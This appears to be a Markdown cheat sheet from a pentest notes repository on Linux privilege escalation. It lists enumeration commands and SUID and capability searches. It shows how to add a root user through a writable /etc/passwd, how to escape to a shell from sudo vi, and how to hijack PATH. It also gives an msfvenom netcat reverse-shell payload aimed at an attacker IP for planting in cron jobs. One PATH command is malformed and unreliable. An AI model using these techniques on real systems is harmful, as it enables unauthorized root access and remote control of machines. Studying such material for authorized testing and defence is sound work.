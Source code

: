 # 4.1.0 - [LINUX] PrivEsc

[Guide](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

---

## Enumeration

Get information with hostname (prod server, bdd server, etc.)

```bash
$ hostname
```

Get kernal version

```bash
$ uname -a
$ cat /proc/version
```

Show banner

```bash
$ cat /etc/issue
```

Show process

```bash
$ ps -A
$ ps axjf
$ ps aux
```

Env informations

```bash
$ env
```

Sudo 

```bash
$ sudo -l
```

Get groups of current user

```bash
$ id
```

Show history 

```bash
$ history
```

Show openned ports (listen)

```bash
$ netstat -a
$ netstat -l
# Get statistics
$ netstat -s
$ netstat -lntp
$ netstat -ano
```

---

---

## Automatic enumerate

Execute **LinEnum.sh**

[Get LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
[Get LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

---

## Kernel exploitation

Warning : Failed kernel exploit can lead to a system crash.

Methodology : 1. Identify the kernel version / 2. Search and find exploit / 3. Exploit

[Linux Kernel](https://www.linuxkernelcves.com/cves)
[Exploit DB](https://www.exploit-db.com/)

---

## SUID/GUID Files

Find SUID :

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /4000 -type f 2>/dev/null
```

Find GUID :

```bash
$ find / -perm -g=s -type f 2>/dev/null
```

OR

```bash
$ find / -perm /2000 -type f 2>/dev/null
```

---

## Capabilites

```bash
$ getcap -r / 2>/dev/null
```

---

## Exploiting a writable /etc/passwd

If /etc/passwd is writable, add an user with this follow line :

Before, we need to generated a password salty :

```bash
$ openssl passwd -1 -salt <salt> <password>
```

```bash
<user>:<salty_password>:0:0::/root:/bin/bash
```

---

## Use binary sudo (like sudo vi)

List what commands are you able to execute as a super user (example below with vi) :

```bash
$ sudo -l
[...]
(root) NOPASSWD: /usr/bin/vi
```

You can execute vi like this :

```bash
$ sudo /usr/bin/vi
```

Then, run this follow command :

```bash
!/bin/bash
```

---

## Show crontab

Execute LinEnum.sh or enumerate crontab :

```bash
$ ls -l /etc/cron*
```

If you a crontable file execute by higher user you can modify then with reverse shell payload for example :

Find a payload on GTFOBINS or you can "manually" create this :

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attacker_ip> lport=<listening_port> R
```

---

## PATH Variable

Overwrite the PATH variable

If we find a script run as higher privileges user but there we cant modify. You can see if this script run a "classic" command like ls.

If there is, write a new file with the name of this command :

```bash
echo "/bin/bash > /tmp/ls
```

And export the PATH variable of binaries :

```bash
export PATH=/tmp:$PATH
```

Then execute the initial script.

---

## Ressources

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation
